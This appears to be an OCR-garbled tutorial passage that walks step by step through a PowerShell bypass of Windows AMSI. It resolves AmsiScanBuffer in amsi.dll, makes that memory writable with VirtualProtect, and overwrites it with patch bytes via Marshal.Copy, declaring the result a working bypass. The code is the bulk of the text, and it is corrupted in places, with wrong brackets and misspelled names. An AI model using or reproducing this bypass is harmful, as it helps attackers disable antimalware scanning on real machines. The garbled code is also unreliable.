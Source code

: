 Now that we can call our API functions, we can identify where **amsi.dll** is located and how to get to the function. First, we need to identify the process handle of AMSI using **GetModuleHandle**. The handle will then be used to identify the process address of **AmsiScanBuffer** using **GetProcAddress**

> **$handle \[Win32.Kernel32]::GetModuleHandle{**

> **‘amsi.dll’ // Obtains handle to amsi.dll**

> **}:**

> **\[IntPtr $BufferAddress = \[Win32.Kernel32]::GetProcAddress{**

> **$handle, // Handle of amsi.dll**

> **‘AmsiScanBuffer’ // API call to obtain**

> **};**

Next, we need to modify the memory protection of the **AmsiScanBuffer** process region. We can specify parameters and the buffer address for **VirtualProtect**

Information on the parameters and their values can be found from the previously mentioned API documentation.

> **\[UInt32] $Size = 0x5; // Size of region**

> **\[UInt32] $ProtectFlag= 0x40; // PAGE\_EXECUTE\_READWRITE**

> **\[UInt32] $0ldProtectFlag= 0; // Arbitrary value to store options**

> **\[Win32 Kernel32]: VirtualProtect(**

> **$BufferAddress, // Point to AnsiScanBuffer**

> **$Size, // Size of region**

> **$ProtectFlag, // Enables R or RW access to region**

> **\[Ref] $OldProtectFlag // Pointer to store old options**

We need to specify what we want to overwrite the buffer with; the process to identify this buffer can be found here. Once the buffer is specified, we can use **marshal copy** to write to the process.

> **$buf = \[Byte\[]](\[UInt32]0xB8, \[UInt32]0x57, \[UInt32]0x00, \[Uint32]0x07, \[Uint32]0x80, \[Vint32]0xC3);**

> **\[system.runtime.interopservices.marshal]::copy{**

> **$buf, // Opcodes/array to write**

> **0, // Where to start copying in source array**

> **$BufferAddress, // Where to write (AsmiScanBuffer)**

> **6 //Number of elements/opcodes to write**

> **};**

At this stage, we should have an AMSI bypass that works! It should be noted that with most tooling, signatures and detections can and are crafted to detect this script.

* * *
